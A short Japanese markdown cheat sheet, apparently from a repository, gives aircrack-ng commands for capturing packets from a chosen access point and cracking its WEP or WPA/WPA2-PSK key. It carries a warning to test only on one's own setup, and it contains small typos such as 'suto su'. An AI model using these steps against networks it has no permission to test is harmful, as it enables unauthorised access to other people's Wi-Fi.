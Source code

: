 # Wi-Fi Crack

**※悪用厳禁です。試すときは自分の環境でのみ実施してください。**

## WEP or WPA/WPA2-PSK Crack

  - aircrack-ng
    - 参考：https://whitemarkn.com/learning-ethical-hacker/aircrack-ng/
  - wifiteもあり
    - 例ではairclack-ngを使ってます。

```bash
# root権限が必要
$ suto su

# 利用可能なインターフェースを表示
$ airmon-ng

# 該当のwifiアダプターをモニターモードに変更
$ airmon-ng start wlan0

# モニターモードにしたインターフェースを表示
$ airmon-ng

# 周辺のAPのパケットを収集
# 攻撃対象について確認する
$ airodump-ng wlan0mon

# 攻撃対象の情報だけファイルに出力(例ではsample-01.capのようなファイルが出力される)
# 解析に十分な量のパケットが必要なので、データがたまるまでしばらく待機
# 参考として、Dataが103179の時、WEPの解析できた
$ airodump-ng --bssid FF:FF:FF:FF:FF:FE --channel 7 -w sample wlan0mon

# 取集したパケットで解析する
$ aircrack-ng sample-01.cap
```
